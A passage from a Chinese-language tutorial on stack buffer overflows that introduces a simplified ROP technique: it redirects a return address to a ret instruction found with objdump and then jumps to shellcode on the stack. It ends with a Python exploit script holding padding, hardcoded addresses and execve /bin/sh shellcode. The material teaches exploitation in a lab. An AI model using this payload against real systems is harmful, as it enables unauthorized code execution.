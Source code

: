 结果如图1-29所示：

<div>
    <center><!--将图片和文字居中-->
    <img src="1-29.png"
         alt="1-29.png"
         style="100%"/>
    <br>  <!--换行-->
    Picture 1-29 <!--标题-->
    </center>
</div>

上述的这个办法就是多了一个ret指令，那么我们就可以考虑能不能利用其他代码片段的ret指令呢？我们将该函数返回地址改为其他代码片段的ret指令地址，然后该ret指令的返回地址改为shellcode的地址不就同样可以实现吗？

因为目标程序很小，因此可以直接通过objdump寻找另一个ret指令。

上述说的方法其实就是ROP，但这里的ROP很简化，我们只需要利用其他地址的ret指令即可完成我们的目标，而真实的ROP构造甚至会需要利用已存在的指令来配合实现shellcode，这就会经历很多次跳转来执行位于不同地址的指令。

为了简化，我们仍然把代码存在栈里，然后两次ret即可。

通过objdump查看该程序的反汇编代码可以找到很多ret指令，随便用一个即可。

脚本代码如下所示，这里的区别只是将第一个address的地址赋值成存在于其他地址的ret指令，其他的都不变。

```python
payload = "A"*80
address = "\xf9\x85\x04\x08"
address += "\x94\xfc\xff\xbf"
shellcode =  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"

print payload + address + shellcode
```
